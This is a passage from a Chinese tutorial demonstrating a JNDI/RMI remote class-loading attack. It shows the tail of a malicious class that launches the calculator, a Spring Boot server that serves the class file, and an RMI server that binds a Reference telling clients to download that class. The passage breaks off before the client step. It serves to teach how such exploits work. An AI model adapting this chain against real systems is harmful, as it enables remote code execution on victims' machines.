 ```java
        }
    }

    public static void main(String[] args) {
        BugFinder bugFinder = new BugFinder();
    }

}
```
本人是Mac操作系统，代码中就基于Mac的命令实现方式，通过Java命令调用Calculator.app。同时，当该类被初始化时，会执行启动计算器的命令。<br />将上述代码进行编译，存放在一个位置，这里单独copy出来放在了“/Users/zzs/temp/BugFinder.class”路径，以备后用，这就是攻击的恶意代码了。
<a name="PXw2T"></a>
#### 第二步：构建Web服务器
Web服务用于RMI调用时返回攻击类文件。这里采用Spring Boot项目，核心实现代码如下：
```java
@RestController
public class ClassController {

    @GetMapping(value = "/BugFinder.class")
    public void getClass(HttpServletResponse response) {
        String file = "/Users/zzs/temp/BugFinder.class";
        FileInputStream inputStream = null;
        OutputStream os = null;
        try {
            inputStream = new FileInputStream(file);
            byte[] data = new byte[inputStream.available()];
            inputStream.read(data);
            os = response.getOutputStream();
            os.write(data);
            os.flush();
        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            // 省略流的判断关闭；
        }
    }
}
```
在该Web服务中，会读取BugFinder.class文件，并返回给RMI服务。重点提供了一个Web服务，能够返回一个可执行的class文件。
<a name="GVYQi"></a>
#### 第三步：修改RmiServer
对RmiServer的绑定做一个修改：
```java
public class RmiServer {

    public static void main(String[] args) throws Exception {
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase","true");
        Registry registry = LocateRegistry.createRegistry(1099);
        System.out.println("RMI启动，监听：1099 端口");
        Reference reference = new Reference("com.secbro.rmi.BugFinder", "com.secbro.rmi.BugFinder", "http://127.0.0.1:8080/BugFinder.class");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("hello", referenceWrapper);

        Thread.currentThread().join();
    }
}
```
这里Reference传入的参数就是攻击类及远程下载的Web地址。
<a name="QFdZ5"></a>
#### 第四步：执行客户端代码
执行客户端代码进行访问：
```java
```